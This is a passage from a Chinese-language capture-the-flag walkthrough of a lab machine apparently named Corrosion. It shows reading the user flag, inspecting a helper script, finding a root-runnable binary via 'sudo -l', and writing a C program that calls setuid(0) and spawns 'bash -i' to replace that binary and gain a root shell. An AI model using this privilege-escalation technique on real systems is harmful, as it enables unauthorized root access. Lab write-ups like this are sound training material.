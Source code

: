     登陆成功！！
    
6. 寻找敏感文件
    - 在当前家目录下存在`user.txt`
        
        ```python
        randy@corrosion:~$ cat user.txt
        98342721012390839081
        ```
        
    - `~/tools/`下存在 `easysysinfo` `easysysinfo.py`
        
        ```python
        ## eseysysinfo.py
        #!/usr/bin/python3.9
        import os
        command1 = "/usr/bin/date"
        command2 = "/usr/bin/cat /etc/hosts"
        command3 = "/usr/bin/uname -a"
        def output():
                print("Today is: ")
                os.system(command1)
                print("\n")
                print("Hosts File: ")
                os.system(command2)
                print("\n")
                print("Kernal Version: ")
                os.system(command3)
        output()
        ```
        
7. 查看权限
    
    可以使用`sudo`权限执行`/home/randy/tools/easysysinfo`
    
    ```python
    randy@corrosion:~/tools$ sudo -l                                                                                                                                          
    Matching Defaults entries for randy on corrosion:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User randy may run the following commands on corrosion:
        (root) PASSWD: /home/randy/tools/easysysinfo
    ```
    
8. 因为我们可以`(root) PASSWD: /home/randy/tools/easysysinfo` 所以我们自己写一个c的提权文件替换原本的文件即可
    
    ```python
    # #easysysinfo.c
    #include <unistd.h>
    #include <stdlib.h>
    
    void main(){ 
            setuid(0);
            setgid(0);
            system("bash -i");
    }
    ```
    